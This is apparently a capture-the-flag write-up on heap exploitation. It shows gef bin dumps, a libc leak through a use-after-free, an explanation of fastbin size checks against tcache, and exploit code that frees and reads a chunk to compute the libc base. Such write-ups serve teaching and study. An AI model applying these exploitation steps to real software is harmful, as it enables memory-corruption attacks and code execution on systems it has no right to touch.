 ```
0x562594f42080: 0x6262626262626262      0x6262626262626262
0x562594f42090: 0x6262626262626262      0x6262626262626262
0x562594f420a0: 0x6262626262626262      0x6262626262626262
0x562594f420b0: 0x6262626262626262      0x6262626262626262
0x562594f420c0: 0x6262626262626262      0x6262626262626262
gef➤  heap bins
[+] No Tcache in this version of libc
────────────────────────────────────────── Fastbins for arena 0x7fb9b8e80b20 ──────────────────────────────────────────
Fastbins[idx=0, size=0x20] 0x00
Fastbins[idx=1, size=0x30] 0x00
Fastbins[idx=2, size=0x40] 0x00
Fastbins[idx=3, size=0x50] 0x00
Fastbins[idx=4, size=0x60] 0x00
Fastbins[idx=5, size=0x70] 0x00
Fastbins[idx=6, size=0x80] 0x00
─────────────────────────────────────── Unsorted Bin for arena '*0x7fb9b8e80b20' ───────────────────────────────────────
[+] unsorted_bins[0]: fw=0x562594f42030, bk=0x562594f42030
 →   Chunk(addr=0x562594f42040, size=0x110, flags=PREV_INUSE)
[+] Found 1 chunks in unsorted bin.
──────────────────────────────────────── Small Bins for arena '*0x7fb9b8e80b20' ────────────────────────────────────────
[+] Found 0 chunks in 0 small non-empty bins.
──────────────────────────────────────── Large Bins for arena '*0x7fb9b8e80b20' ────────────────────────────────────────
[+] Found 0 chunks in 0 large non-empty bins.
```
And here, we can see the libc address get leaked to the terminal.
```
⅀ ℙ ∉ ⎳ ⎳'s type:
⅀ ℙ ∉ ⎳ ⎳       : x\x0b\xb8\xb9\x7f
```

## Forging Fastbins

Some background on fastbins: fastbins are singly-linked lists. At least in this version of libc, there is a fastbin for chunks of sizes 0x20-0x80. Each fastbin includes a forward pointer, which points to the previous entry in the fastbin. 

Now, if you have pre-existing familiarity with dupping tcache bins, the next step here probably seems quite straightforward; with tcache, we could simply allocate and free a few chunks of the same size (any size that goes into tcache would work), overwrite the last one's forward pointer (using the UAF vuln and edit function) to the address of malloc hook based on the libc leak, and allocate two new chunks of the same size to get a heap chunk allocated on top of the malloc hook and overwrite it.

However, fastbins are actually slightly more secure than tcache bins in this respect. When new chunks are allocated from the fastbin, it actually checks if the size of the chunk (specified by the eight bytes directly before the content area/forward pointer) actually matches the size of the fastbin in which it has been placed. If it doesn't, the allocator will raise an error. Here is some code to prove that; I attempt to directly overwrite the malloc hook from the 0x30 "Types" chunks
```
add(1, b'a' * 0x17, 0x100, b'b' * (0x100-1))
add(2, b'c' * 0x17, 0x50, b'd' * (0x50-1))
add(3, b'c' * 0x17, 0x50, b'd' * (0x50-1))

delete(1)
show(1)
print(target.recvuntil(b'type:'))
print(target.recvuntil(b': '))
leak = target.recv(6)
free_libc = u64(leak + b'\x00' * 2) - 0x340638
print(hex(free_libc))
libc_base = free_libc - libc.symbols['free']
```